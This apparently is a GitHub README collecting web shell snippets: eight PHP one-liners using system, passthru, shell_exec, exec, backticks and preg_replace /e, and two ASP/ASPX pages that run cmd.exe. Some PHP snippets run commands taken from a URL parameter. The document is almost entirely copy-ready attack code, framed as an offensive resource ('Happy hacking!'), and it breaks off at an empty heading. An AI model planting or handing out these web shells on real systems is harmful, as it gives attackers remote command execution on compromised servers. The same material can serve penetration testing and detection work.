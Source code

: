 # WebShells

**Disclaimer**\
This repository is currently under construction. The content is being updated and expanded. New file extensions and detailed descriptions will be added soon. Stay tuned for more additions. Happy hacking!

Currently this document outlines the usage of various PHP file extensions commonly used for web shells and their potential to be exploited for Remote Code Execution (RCE).

# PHP Webshells

#### 1. Basic Command Execution Using system()

```php
<?php system("whoami"); ?>
```

#### 2. Passing Commands via URL Parameters with system() (shell.php?cmd=whoami)

```php
<?php system($_GET['cmd']); ?>
```

#### 3. Executing System Commands with passthru()

```php
<?php passthru($_GET['cmd']); ?>
```

#### 4. Capturing Command Output Using shell\_exec()

```php
<?php echo shell_exec("whoami"); ?>
```

#### 5. Using exec() to Run Commands (Outputs Only Last Line)

```php
<?php echo exec("whoami"); ?>
```

#### 6. Storing Full Output from exec() as an Array

```php
<?php
exec("ls -la", $output);
print_r($output);
?>
```

#### 7. Backtick Syntax for Simple Command Execution

```php
<?php echo `whoami`; ?>
```

#### 8. Legacy preg\_replace() Execution Trick (Deprecated)

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

# ASPX Webshells

#### 1. Classic VBScript-Style ASP Command Execution

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### 2. Executing Commands in C# ASPX with Output Display

```aspx
<%@ Page Language="C#" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c whoami";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.UseShellExecute = false;
    p.Start();
    string output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
}
</script>
```

####

